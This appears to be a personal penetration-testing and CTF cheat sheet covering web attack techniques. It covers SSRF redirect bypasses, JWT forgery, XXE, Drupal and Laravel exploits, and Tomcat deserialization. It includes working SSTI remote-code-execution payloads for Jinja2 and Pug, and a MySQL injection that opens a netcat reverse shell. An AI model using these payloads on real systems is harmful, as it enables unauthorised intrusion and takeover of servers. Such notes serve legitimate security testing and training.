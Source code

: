 ## If we can confirm an SSRF and want to access internal services like any internal webapp, or internal ftp service but cant due to blacklistings
Then we can host a 301 redirctor link to the director here: https://gist.github.com/TheHackerDev/853b17e9f03c6d5a1cebd9556327e94c. Using this, we can make the server GET our page (which isnt blocked by the blacklist) which will redirect it to localhost, or any other website of our choice.

## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell
## If we have RCE via any webapp, but quotes, / doesnt work then to pass commands with spaces we can use \`"Commmand here"\`, this may not give output, since it will treat the output of the command entered as a command, but since since it evaluates the <Command here>, hence we can use this to get access, even rev shells, An example: \`cat /flagfTXY4 > something\`

## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
